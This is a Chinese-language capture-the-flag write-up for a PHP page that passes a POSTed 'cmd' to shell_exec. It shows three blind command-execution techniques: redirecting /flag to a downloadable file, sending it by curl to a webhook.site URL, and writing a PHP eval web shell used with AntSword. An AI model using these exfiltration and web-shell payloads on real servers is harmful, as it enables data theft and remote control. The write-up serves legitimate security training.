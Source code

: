 ```php
<?php
highlight_file(__FILE__);
shell_exec($_POST['cmd']);
```

以POST上传参数到shell可以进行任意命令执行 但是由于没有直接回显 , 我们需要用其他方式进行外带



1、重定向到文件

我们可以用流重定向符号来将输出内容重定向到文件中, 在通过浏览器进行下载

```php
cmd=cat /flag>1
```

上传后下载文件即可发现flag

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1731592235566-325de4ff-55d3-44a1-9996-59a924955958.png)

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1731592190689-2b562867-dda8-42bf-beb3-74a10497fb67.png)

2、通过curl外带

我们可以通过 https://webhook.site/ 来进行数据外带, 我们可以拿到这样一个链接

```php
https://webhook.site/aaa9bd52-0fe8-4c8e-b8d0-b13dd8fded07
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1731592560803-ed1b4ab5-b61f-485f-aaa7-08b18abcb401.png)

此时这个路径下的所有请求都会被记录

于是我们可以通过shell指令

```php
cmd=curl https://webhook.site/aaa9bd52-0fe8-4c8e-b8d0-b13dd8fded07/`cat /flag | base64`
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1731592964691-bddeb5d4-2c90-4605-86e6-a22f44fe28ca.png)

3、直接写马

```php
cmd=echo "<?php eval(\$_POST[0]);" > a.php
```

注意（$需要在前面加反斜杠进行转义）并且语句需要url编码

```php
cmd=echo%20%22%3C%3Fphp%20eval(%5c%24_POST%5B0%5D)%3B%22%20%3E%20a.php
```

在用中国蚁剑去连接得到flag

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1731596746598-b8048b79-bab9-4f6c-90a4-c74919326c86.png)

得到flag
